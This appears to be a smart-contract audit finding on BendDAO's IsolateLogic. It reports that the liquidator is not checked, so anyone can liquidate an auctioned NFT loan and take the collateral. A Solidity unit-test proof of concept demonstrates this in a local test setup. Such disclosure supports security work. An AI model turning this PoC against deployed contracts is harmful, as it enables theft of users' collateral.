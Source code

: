 https://github.com/code-423n4/2024-07-benddao/blob/117ef61967d4b318fc65170061c9577e674fffa1/src/libraries/logic/IsolateLogic.sol#L473

Flows: `IsolateLiquidation::isolateLiquidate -> IsolateLogic.executeIsolateLiquidate()`. Note that `msg.sender` is passed from `isolateLiquidate()` to the end of `executeIsolateLiquidate()` without any checks.

### Proof of Concept

See added unit test `test_Anyone_Can_LiquidateWETH()`. Only `tsLiquidator1` auctioned, but `tsBorrower2` can liquidate and receive collaterals:

```solidity
//test/integration/TestIntIsolateLiquidate.t.sol
...
  function test_Anyone_Can_LiquidateWETH() public {
    TestCaseLocalVars memory testVars;

    // deposit
    prepareWETH(tsDepositor1);
    uint256[] memory tokenIds = prepareIsolateBAYC(tsBorrower1);

    // borrow
    prepareBorrow(tsBorrower1, address(tsBAYC), tokenIds, address(tsWETH));

    // make some interest
    advanceTimes(365 days);

    // drop down nft price
    actionSetNftPrice(address(tsBAYC), 5000);

    // auction
    prepareAuction(tsLiquidator1, address(tsBAYC), tokenIds, address(tsWETH));

    // end the auction
    advanceTimes(25 hours);

    uint256[] memory liquidateAmounts = new uint256[](tokenIds.length);
    testVars.loanDataBefore = getIsolateLoanData(tsCommonPoolId, address(tsBAYC), tokenIds);
    for (uint256 i = 0; i < tokenIds.length; i++) {
      testVars.totalBidAmount += testVars.loanDataBefore[i].bidAmount;
      testVars.totalBidFine += testVars.loanDataBefore[i].bidFine;
      testVars.totalRedeemAmount += testVars.loanDataBefore[i].redeemAmount;
      testVars.totalBorrowAmount += testVars.loanDataBefore[i].borrowAmount;
    }

    testVars.poolBalanceBefore = tsWETH.balanceOf(address(tsPoolManager));
    testVars.walletBalanceBefore1 = tsWETH.balanceOf(address(tsLiquidator1));
    testVars.walletBalanceBefore2 = tsWETH.balanceOf(address(tsBorrower1));
    testVars.erc721BalanceBefore1 = tsBAYC.balanceOf(address(tsLiquidator1));

    // liquidate
    // note: check tsBorrower2 can liquidate and receive nfts without bidding.
    tsBorrower2.isolateLiquidate(tsCommonPoolId, address(tsBAYC), tokenIds, address(tsWETH), liquidateAmounts, false);
    testVars.erc721BalanceAfter1 = tsBAYC.balanceOf(address(tsBorrower2));
    assertEq(
      testVars.erc721BalanceAfter1,
      (testVars.erc721BalanceBefore1 + tokenIds.length),
      'tsLiquidator1 bayc balance'
    );

    }
...
```